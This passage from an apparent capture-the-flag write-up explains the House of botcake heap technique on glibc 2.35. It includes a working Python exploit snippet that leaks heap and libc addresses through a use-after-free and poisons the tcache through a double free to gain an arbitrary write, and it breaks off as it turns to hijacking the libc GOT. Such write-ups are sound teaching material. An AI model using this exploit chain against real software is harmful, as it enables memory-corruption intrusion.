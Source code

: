 ### AAW: House of botcake

Now, in order to hijack control flow, it would be nice to have an arbitrary address write primitive. Usually in heap challenge this can be obtained by modifying the pointers of a free chunk in order to insert a fake chunk at a chosen address into a bin, and then alloc at this address. But here we do not have a way to modify an existing request, our Use-after-free vulnerability only allows us to read a free chunk. So we will have to use the double free. Searching for "double free" on [how2heap](https://github.com/shellphish/how2heap), I found the [House of botcake](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/house_of_botcake.c) which seemed very promising in our situation, and then I fell upon [this write-up](https://nasm.re/posts/catastrophe/#house-of-botcake) from nasm that was explaining it very well. In a nutshell, the idea is to free the same chunk (`a`) twice in a way that it falls once in the unsorted bin, once in the tcache, then free the chunk just before it (`prev`) so that it consolidates with `a` from the unsorted bin, and allocate a bigger chunk that will cover `prev` and the metadata of `a`. `a`'s forward pointer as a `tcache` chunk can thus be modified, and a fake chunk can be linked into the tcache.

This part of this exploit is highly inspired from nasm's WU, with a few adjustments to perform our leaks and due to the fact that the `r_sizes` and `requests` arrays grow during the exploit and are regularly reallocated, sometimes getting on our way:
```python
add_req(0x100, b"A")
remove_req(0)
heap = unpack(show_req(0)[:5], "all") << 12
log.info(f'heap: {hex(heap)}')
for i in range(7):
    add_req(0x100, bytes([ord('A') + i]*0x100))
add_req(0x100, b"prev")
add_req(0x100, b"a")

for _ in range(7):
    remove_req(1)

remove_req(2) #a -> unsorted bin
remove_req(1) #prev

libc.address = u64(show_req(2)[:8]) - 0x219ce0
log.info(f"Libc: {hex(libc.address)}")

add_req(0x100, b"truc") #allocated from tcache
remove_req(2) #a -> tcache

#size adapted because another array alloced in the chunk
add_req(0x130, b"T"*0xc8 + p64(0x111) + p64(TARGET ^ (heap >> 12))) #prev, overlap with a

add_req(0x100, b"pop a from tcache")
```

With this, the next chunk allocated from the `0x100` tcache will be located at `TARGET`

### Targeting the libc's GOT

Now that we can write anywhere, we need to hijack the control flow. Something in nasm's WU caught my attention:
> I didn’t see first that only PARTIAL RELRO was enabled on the libc, so the technique I show you here was thought to face a 2.35 libc with FULL RELRO enabled that the reason why I didn’t just hijack some GOT pointers within the libc.
